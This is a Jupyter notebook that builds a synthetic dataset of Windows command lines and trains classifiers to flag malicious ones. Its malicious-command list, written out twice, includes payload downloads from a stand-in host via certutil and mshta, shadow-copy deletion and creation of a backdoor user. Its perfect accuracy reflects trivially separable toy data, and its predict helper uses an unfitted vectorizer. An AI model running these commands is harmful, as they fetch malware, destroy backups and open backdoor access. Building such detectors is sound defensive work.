<a href="https://colab.research.google.com/github/Ananth8august/Behavioral_Security_Project/blob/main/Behavioral_Security_Project.ipynb" target="_parent"><img src="https://colab.research.google.com/assets/colab-badge.svg" alt="Open In Colab"/></a>

In [4]:
# 1. Install required Excel engine (run once per session)
!pip install -q openpyxl

import pandas as pd
import numpy as np

# 2. Automatically generate the clean behavioral dataset (.xlsx format)
np.random.seed(42)
n_samples = 1000

parent_processes_normal = ['explorer.exe', 'services.exe', 'winlogon.exe', 'svchost.exe']
parent_processes_malicious = ['cmd.exe', 'powershell.exe', 'winword.exe', 'wmiprvse.exe', 'unknown']

normal_cmds = [
    'robocopy C:\\Users\\Admin\\Documents D:\\Backup /MIR',
    'net use z: \\server\\share',
    'ipconfig /all',
    'whoami',
    'tasklist',
    'systeminfo'
]

malicious_cmds = [
    'certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe',
    'vssadmin delete shadows /all /quiet',
    'powershell -enc JABhAGwAbABlAG4AZwBlAA==',
    'mshta http://evil.com/script.hta',
    'net user backdoor P@ssword123 /add',
    'wmic process call create "cmd.exe /c calc.exe"'
]

data = []
for _ in range(n_samples):
    is_malicious = np.random.choice([0, 1], p=[0.7, 0.3])
    if is_malicious:
        parent = np.random.choice(parent_processes_malicious)
        cmd = np.random.choice(malicious_cmds)
        hour = np.random.choice([0, 1, 2, 3, 4, 22, 23])
        label = 1
    else:
        parent = np.random.choice(parent_processes_normal)
        cmd = np.random.choice(normal_cmds)
        hour = np.random.choice(range(8, 19))
        label = 0
    data.append({
        'ParentProcess': parent,
        'CommandString': cmd,
        'Execution_Hour': hour,
        'Label': label
    })

df = pd.DataFrame(data)

# 3. Save cleanly to Excel
df.to_excel('behavioral_log_dataset.xlsx', index=False)

# 4. Load it back using the explicit engine (This is what your base code will use)
df_loaded = pd.read_excel('behavioral_log_dataset.xlsx', engine='openpyxl')

print(f"✅ Behavioral Dataset ready! Total rows: {len(df_loaded)}")

✅ Behavioral Dataset ready! Total rows: 1000




Gradient Boosting Accuracy:  1.0
SVM Accuracy:  1.0
Naive Bayes Accuracy:  1.0
Model: Gradient Boosting
Accuracy: 1.0
Classification Report:
              precision    recall  f1-score   support

           0       1.00      1.00      1.00       139
           1       1.00      1.00      1.00        61

    accuracy                           1.00       200
   macro avg       1.00      1.00      1.00       200
weighted avg       1.00      1.00      1.00       200

Confusion Matrix:
[[139   0]
 [  0  61]]


Model: SVM
Accuracy: 1.0
Classification Report:
              precision    recall  f1-score   support

           0       1.00      1.00      1.00       139
           1       1.00      1.00      1.00        61

    accuracy                           1.00       200
   macro avg       1.00      1.00      1.00       200
weighted avg       1.00      1.00      1.00       200

Confusion Matrix:
[[139   0]
 [  0  61]]


Model: Naive Bayes
Accuracy: 1.0
Classification Report:
              p



Model: SVM




Model: Naive Bayes




In [9]:
import pandas as pd
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.model_selection import train_test_split
from sklearn.ensemble import GradientBoostingClassifier
from sklearn.svm import SVC
from sklearn.naive_bayes import MultinomialNB
from sklearn.metrics import accuracy_score, classification_report
from sklearn.metrics import confusion_matrix
import matplotlib.pyplot as plt
import seaborn as sns
from wordcloud import WordCloud

# Load the data
data = pd.read_excel("behavioral_log_dataset.xlsx", engine='openpyxl')

# Countplot of the Target Variable
plt.figure(figsize=(6,6))
sns.countplot(x=data['Label'])
plt.title('Distribution of Malicious and Non-Malicious Commands')
plt.show()

# Split the data into features (X) and target (y)
X = data['CommandString']
y = data['Label']

# Split the data into a training set and a test set
X_train, X_test, y_train, y_test = train_test_split(X, y, test_size=0.2, random_state=42)

# Transform the 'Command' column into numerical data using TF-IDF
vectorizer = TfidfVectorizer()
X_train_tfidf = vectorizer.fit_transform(X_train)
X_test_tfidf = vectorizer.transform(X_test)

# Gradient Boosting
gb = GradientBoostingClassifier()
gb.fit(X_train_tfidf, y_train)
gb_pred = gb.predict(X_test_tfidf)
print("Gradient Boosting Accuracy: ", accuracy_score(y_test, gb_pred))

# Support Vector Machines
svm = SVC()
svm.fit(X_train_tfidf, y_train)
svm_pred = svm.predict(X_test_tfidf)
print("SVM Accuracy: ", accuracy_score(y_test, svm_pred))

# Naive Bayes
nb = MultinomialNB()
nb.fit(X_train_tfidf, y_train)
nb_pred = nb.predict(X_test_tfidf)
print("Naive Bayes Accuracy: ", accuracy_score(y_test, nb_pred))

# Define a function to evaluate the model
def evaluate_model(model, X_test, y_test):
    # Make predictions
    y_pred = model.predict(X_test)
    # Calculate metrics
    acc = accuracy_score(y_test, y_pred)
    report = classification_report(y_test, y_pred)
    cm = confusion_matrix(y_test, y_pred)
    return acc, report, cm

# Fit and evaluate each model
models = [gb, svm, nb]
model_names = ['Gradient Boosting', 'SVM', 'Naive Bayes']
for name, model in zip(model_names, models):
    print(f"Model: {name}")
    model.fit(X_train_tfidf, y_train)
    acc, report, cm = evaluate_model(model, X_test_tfidf, y_test)
    print(f"Accuracy: {acc}")
    print("Classification Report:")
    print(report)
    print("Confusion Matrix:")
    print(cm)
    print("\n")

# Confusion Matrices heatmaps
for name, model in zip(model_names, models):
    print(f"Model: {name}")
    model.fit(X_train_tfidf, y_train)
    acc, report, cm = evaluate_model(model, X_test_tfidf, y_test)
    sns.heatmap(cm, annot=True, fmt='d')
    plt.title('Confusion Matrix')
    plt.show()

# Saving the best model - Gradient Boost
import joblib
joblib.dump(gb, 'model.pkl')

# Prediction function helper
import joblib
import pandas as pd
from sklearn.feature_extraction.text import TfidfVectorizer

def predict(input_data):
    gb = joblib.load("model.pkl")
    # Convert the input string into a format suitable for the vectorizer (a pandas Series)
    input_series = pd.Series([input_data])
    vectorizer = TfidfVectorizer()
    # Transform the input string using the previously fitted TF-IDF vectorizer
    transformed_input = vectorizer.transform(input_series)
    # Predict using the previously trained Gradient Boosting model
    prediction = gb.predict(transformed_input)
    # Return the prediction
    return prediction[0]

In [2]:
import pandas as pd
import numpy as np

# Set random seed for reproducibility
np.random.seed(42)
n_samples = 1000

# Define normal vs malicious behaviors
parent_processes_normal = ['explorer.exe', 'services.exe', 'winlogon.exe', 'svchost.exe']
parent_processes_malicious = ['cmd.exe', 'powershell.exe', 'winword.exe', 'wmiprvse.exe', 'unknown']

normal_cmds = [
    'robocopy C:\\Users\\Admin\\Documents D:\\Backup /MIR',
    'net use z: \\server\\share',
    'ipconfig /all',
    'whoami',
    'tasklist',
    'systeminfo'
]

malicious_cmds = [
    'certutil.exe -urlcache -split -f http://evil.com/payload.exe payload.exe',
    'vssadmin delete shadows /all /quiet',
    'powershell -enc JABhAGwAbABlAG4AZwBlAA==',
    'mshta http://evil.com/script.hta',
    'net user backdoor P@ssword123 /add',
    'wmic process call create "cmd.exe /c calc.exe"'
]

data = []
for _ in range(n_samples):
    # 70% normal behavior, 30% malicious/suspicious
    is_malicious = np.random.choice([0, 1], p=[0.7, 0.3])

    if is_malicious:
        parent = np.random.choice(parent_processes_malicious)
        cmd = np.random.choice(malicious_cmds)
        # Malicious activities often happen at odd hours (nighttime)
        hour = np.random.choice([0, 1, 2, 3, 4, 22, 23])
        label = 1
    else:
        parent = np.random.choice(parent_processes_normal)
        cmd = np.random.choice(normal_cmds)
        # Normal admin tasks happen during standard work hours (8 AM - 6 PM)
        hour = np.random.choice(range(8, 19))
        label = 0

    data.append({
        'ParentProcess': parent,
        'CommandString': cmd,
        'Execution_Hour': hour,
        'Label': label
    })

# Convert to DataFrame and save as CSV
df = pd.DataFrame(data)
df.to_csv('behavioral_log_dataset.csv', index=False)

print(f"✅ Behavioral dataset generated successfully! Total rows: {len(df)}")
print("\nSample Data Preview:")
print(df.head(10))

✅ Behavioral dataset generated successfully! Total rows: 1000

Sample Data Preview:
  ParentProcess                                      CommandString  \
0  explorer.exe                                      ipconfig /all   
1  winlogon.exe                           net use z: \server\share   
2  winlogon.exe                                           tasklist   
3  winlogon.exe                                         systeminfo   
4  wmiprvse.exe     wmic process call create "cmd.exe /c calc.exe"   
5   svchost.exe                                           tasklist   
6  services.exe                                           tasklist   
7  winlogon.exe                           net use z: \server\share   
8   svchost.exe   robocopy C:\Users\Admin\Documents D:\Backup /MIR   
9       unknown  certutil.exe -urlcache -split -f http://evil.c...   

   Execution_Hour  Label  
0              15      0  
1              10      0  
2              11      0  
3              12      0  
4         